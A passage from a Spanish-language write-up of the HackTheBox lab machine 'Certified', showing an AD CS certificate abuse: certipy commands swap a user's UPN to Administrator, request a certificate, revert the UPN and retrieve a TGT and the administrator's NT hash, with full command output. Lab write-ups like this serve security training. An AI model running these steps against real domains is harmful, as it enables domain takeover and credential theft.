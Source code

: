 Evidentemente, como Windows no nos permite editar algunos de nuestros propios atributos vamos a tener que hacer lo primero desde la cuenta de `management_svc` y luego pedir el certificado usando la cuenta de `ca_operator`.

Al intentar lo dicho, vemos que efectivamente funciona:

```bash
# Con el ticket de management_svc
❯ certipy account update -k -u 'ca_operator@certified.htb' -target dc01.certified.htb -ns 10.10.11.41 -user ca_operator -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
# Con el ticket de ca_operator
❯ certipy req -k -u 'ca_operator@certified.htb' -target dc01.certified.htb -ns 10.10.11.41 -ca certified-DC01-CA -template CertifiedAuthentication
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Al intentar obtener un ticket, nos va a salir este error:

```bash
❯ certipy auth -pfx administrator.pfx -username Administrator -domain certified.htb -ns 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[-] Name mismatch between certificate and user 'administrator'
[-] Verify that the username 'administrator' matches the certificate UPN: Administrator
```

y esto es porque la cuenta `ca_operator` tiene el mismo UPN que la cuenta de administrador, ya que lo hemos cambiado. Asi que al revertirlo debería funcionar:

```bash
❯ certipy account update -k -u 'ca_operator@certified.htb' -target dc01.certified.htb -ns 10.10.11.41 -user ca_operator -upn ca_operator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator
[*] Successfully updated 'ca_operator'
```

y... ¡et voila!

```bash
❯ certipy auth -pfx administrator.pfx -username Administrator -domain certified.htb -ns 10.10.11.41                                     
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```
